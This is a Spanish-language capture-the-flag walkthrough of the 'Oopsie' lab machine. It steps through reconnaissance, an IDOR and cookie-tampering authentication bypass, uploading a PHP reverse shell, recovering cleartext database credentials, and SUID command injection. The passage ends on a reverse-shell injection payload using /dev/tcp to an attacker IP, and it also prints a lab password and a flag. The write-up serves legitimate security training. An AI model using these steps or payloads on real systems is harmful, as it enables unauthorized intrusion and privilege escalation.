--------
- Tags: #Reconnaisance #PHP #CustomApplications #Apache #WebSiteStructureDiscovery #CookieManipulation #SUIDExploitation #Authenticationbypass #cleartextcredentials #ArbitraryFileUpload #IDOR #PathHijacking
-----------





La maquina nos empieza preguntando:



**Respuesta:** `proxy`

✅ Herramientas como **Burp Suite** o **OWASP ZAP** permiten interceptar y modificar tráfico HTTP/HTTPS. Son esenciales en el análisis de aplicaciones web para detectar:

- Peticiones ocultas
    
- Manipulación de cookies
    
- Bypass de autenticación
    
- Fuzzing de formularios
    

**📌 Justificación:**  
Usaremos un proxy para inspeccionar cómo se comporta la aplicación y buscar credenciales, rutas ocultas o parámetros manipulables.




## 🧠 Enumeración inicial y descubrimiento de servicios

### 🔍 Escaneo con Nmap

Realizamos un escaneo de los 1000 puertos más comunes sobre la IP objetivo:



Y vemos que están abiertos tanto SSH como HTTP.


### 🌐 Navegación inicial al sitio web

Accedemos desde el navegador a `http://10.129.66.30`:



## 🧰 Interceptando tráfico HTTP con BurpSuite

Configuramos **FoxyProxy** en el navegador apuntando a `127.0.0.1:8080` para interceptar peticiones con BurpSuite.

- Abrimos Burp Suite.
    
- Activamos FoxyProxy (en el navegador: configuramos el proxy en `127.0.0.1:8080`).
    
- Navega por la IP `http://10.129.66.30/`.
    
- Vamos a "Proxy" y activamos "Intercept On"  <-> A la vez que lo volvemos a apagar (Off) y vamos a HTTP History


Navegamos la web y observamos las rutas que aparecen:



Vemos en el `Site map` la ruta `/cdn-cgi/login/script.js`, lo cual nos da pistas sobre una posible sección de login.



La respuesta del servidor indica un `200 OK` para esa ruta. Por tanto:

📌 **Ruta de login identificada:** `/cdn-cgi/login`



Bien. En la siguiente tarea nos dicen:

¿Qué se puede modificar en Firefox para acceder a la página de subida?

**Respuesta esperada:** un parámetro que el servidor revisa para conceder o no acceso a ciertas rutas. Generalmente, esto se hace mediante **cookies**.



## 🕵️‍♂️ Inspección de cookies

Accedemos a `/cdn-cgi/login` con Firefox + Burp activo e inspeccionamos las cookies.




Nos logueamos como **guest**.

## 🛠️ Manipulación de parámetros y acceso a cuentas

Desde el panel como guest, identificamos que la URL cambia por ID:

```bash
http://10.129.108.161/cdn-cgi/login/admin.php?content=accounts&id=2
```




Tenemos este usuario y access id.



Si cambiamos `id=2` por `id=1`, accedemos a la cuenta del **admin**:

```bash
http://10.129.108.161/cdn-cgi/login/admin.php?content=accounts&id=1
```


📌 **Access ID del admin:** `34322`

## 🍪 Modificación de cookies para escalar privilegios

Desde las herramientas de desarrollo (F12), cambiamos la cookie `user=2233` a `user=34322`, manteniendo `role=guest`.



Al refrescar la página y acceder a la sección `Uploads`:

```bash
http://10.129.108.161/cdn-cgi/login/admin.php?content=uploads
```



¡Accedemos con privilegios suficientes!

## 💣 Subida de reverse shell y ejecución remota

Seleccionamos el archivo `php-reverse-shell.php` ubicado en:



Lo copiamos a un directorio accesible y lo editamos, cambiando IP (VPN) y puerto que queramos:



Subimos el archivo mediante el formulario web:



Confirmación de subida:



Comprobamos la ubicación accediendo a `/uploads/`:



El funcionamiento de subir el reverse shell.php y ponernos en escucha, ha de ser relativamente "rápido" (la ultima imagen era para comprobar que todo funciona bien)

Entonces, volvemos a subir el shell.php, (seguramente tengamos que abrir el puerto indicado, en este caso hemos cambiado el 443 por el 4444)

Nos aseguramos de permitir el puerto de escucha:




Y a la vez que entramos en el enlace  (hemos cambiado el nombre del archivo por rev.php)

```bash
http://10.129.240.130/uploads/rev.php
```



Lanzamos el listener antes de entrar al archivo desde la url, y tendremos shell !



En las tareas (como bien hemos hecho anteriormente):

Task3: Hemos modificado la cookie para engañar a que somos admin
Task4: El user id de admin era 34322
Task5: La url para subir archivos era /uploads



## 🔐 Recuperación de credenciales

Buscamos la contraseña de `robert`. Inspeccionamos el archivo `db.php` en la ruta:



```bash
/var/www/html/cdn-cgi/login/db.php
```



📌 Contraseña encontrada: `M3g4C0rpuUs3r!`


## 🔍 Enumeración local por grupo `bugtracker`




## 🧠 ¿Por qué?

El comando `find` permite buscar archivos con múltiples criterios, incluyendo **el grupo propietario** con la opción `-group`.

### Ejemplo de tarea:

```bash
find / -group bugtracker 2>/dev/null
```

*Nos permite encontrar archivos que pertenecen a dicho grupo.*


## 🔑 Recuerda:

- `find` → busca archivos
    
- `-group` → busca por grupo
    
- `bugtracker` → el nombre del grupo
    
- Por eso: **find** es el ejecutable que buscan.


## 👑 Escalada de privilegios con SUID

Si encontramos un ejecutable con **SUID** activado y propiedad de `root`, al ejecutarlo se ejecuta **con privilegios de root**, sin importar **quién** lo ejecute.

✅ Por eso la respuesta correcta es:



🎯 ¡Acceso root conseguido!

Para la siguiente tendremos que saber:

Entonces la forma **aceptada por la plataforma** en esta tarea es:



🔹 Aunque en muchos sitios se define SUID como **Set User ID upon Execution**, en este caso, la plataforma esperaba la forma **más literal del acrónimo**.

### ¿Por qué?

- `Set` → acción
    
- `Owner` → el propietario del archivo
    
- `User` → hace referencia al usuario (propietario)
    
- `ID` → identificador
    

Cuando un archivo tiene el bit **SUID** activado, se ejecuta **con los privilegios del propietario del archivo**, no del usuario que lo lanza.

## 👤 Captura de la flag de usuario

## Contexto
- Acceso como: www-data (reverse shell)
- Ruta inicial: /var/www/html/uploads

## Acciones realizadas

Desde la shell como `www-data`, navegamos hasta `/home/robert/`:

```bash
cd /home/robert
cat user.txt
```

📌 **Flag usuario:** `f2c74ee8db7983851ab2a96a44eb7981`

## Motivo de éxito
El archivo tenía permisos de lectura para `otros` (es decir, para www-data).

### 🧩 Escalada de privilegios hasta obtener la **flag de root** en la máquina _Oopsie_

#### 1. 📂 Localización de credenciales ocultas en el código fuente PHP

Desde la reverse shell inicial obtenida como `www-data`, se explora el contenido de `/var/www/html/cdn-cgi/login` y se encuentra el archivo `db.php` , el cual contiene:

```bash 
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

Esto revela las **credenciales del usuario `robert`** en texto plano.

#### 2. ⚠️ Problema al usar `su robert`

Al intentar hacer `su robert`, se muestra el error `must be run from a terminal`. Exportar `TERM=xterm` no es suficiente .

#### 3. 🔧 Mejora del entorno de shell interactiva

Para poder usar `su` correctamente, se convierte la shell en una interactiva con:

```bash 
script /dev/null -c bash
``````

Después de ejecutar eso, ya se permite el uso de `su robert`, y se introducen las credenciales descubiertas .



✅ Acceso conseguido como **usuario robert**.

#### 4. 🔍 Enumeración de privilegios especiales (SUID)

Usando:

```bash 
find / -group bugtracker 2>/dev/null
``````

Se encuentra el binario `/usr/bin/bugtracker` 
Este archivo pertenece al grupo `bugtracker`, del cual `robert` forma parte, y tiene permisos **SUID activados**

```bash 
-rwsr-xr-- 1 root bugtracker 8729 ... /usr/bin/bugtracker
```

Esto significa que **el binario se ejecuta con permisos de `root`**, sin importar qué usuario lo lance.

#### 5. ⚠️ Vulnerabilidad en el uso de `cat` dentro del binario

El binario solicita un ID de bug y luego hace `cat` sobre un archivo con ese nombre, sin sanear la entrada. Esto permite inyección de comandos .

```bash 
/usr/bin/bugtracker
```

#### 6. ⚙️ Inyección para ejecutar reverse shell como root

Se inyecta una reverse shell como payload:

```bash 
;bash -i >& /dev/tcp/10.10.16.20/4444 0>&1
```

